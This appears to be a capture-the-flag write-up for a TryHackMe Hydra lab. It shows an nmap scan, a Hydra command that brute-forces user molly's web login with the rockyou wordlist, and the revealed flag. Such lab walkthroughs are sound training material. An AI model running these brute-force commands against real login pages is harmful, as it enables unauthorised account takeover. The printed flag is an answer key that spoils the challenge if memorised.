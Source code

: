 # Hydra 

### [Task 2] 

#####  1. Use Hydra to bruteforce molly's web password. What is flag 1?

* Scan open ports
```nmap -sV -sS 10.10.166.155```

![nmap-scan](https://user-images.githubusercontent.com/62840507/128612421-d85ea0f6-64de-454c-ac84-dfb749fe4fa8.png)

* There is a website on port 80. Let's take a look at it. 

![Ekran Görüntüsü (2)](https://user-images.githubusercontent.com/62840507/128612567-faacea6f-38fc-46ab-9c91-991377fbd9d8.png)

* According ot the question the user name is molly and we now need to find her password with hydra.

``` hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.166.155 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V ```

![image](https://user-images.githubusercontent.com/62840507/128612618-53e8b508-20c2-47ac-80ea-1dfd8084c80b.png)


**Solution :** THM{2673a7dd116de68e85c48ec0b1f2612e}
